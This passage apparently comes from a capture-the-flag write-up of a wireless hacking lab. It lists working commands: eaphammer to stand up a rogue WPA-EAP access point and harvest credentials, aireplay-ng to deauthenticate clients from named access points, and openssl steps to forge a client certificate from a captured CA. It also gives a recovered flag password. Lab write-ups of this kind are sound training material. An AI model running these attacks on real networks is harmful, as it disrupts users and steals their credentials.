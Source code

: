 
After:

```shell
python3 ./eaphammer -i wlan4 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

In parallel:

```shell
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:BA:6C:41
```

In third shell:

```shell
airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:BA:6C:41
```

I take the password:

![](Images/Recon24_02.png)

**Flag :**  `SuperSecure@!@`

## **26. What is the flag found on the wifi-global AP?**

**Challenge Description :**  What is the flag found on the wifi-global AP?

### Approach

With this private CA, I can create public cert:

```shell
openssl genrsa -out client.key 2048
openssl req -config client.conf -new -key client.key -out client.csr
openssl x509 -days 730 -extfile client.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in client.csr -req -out client.crt
```
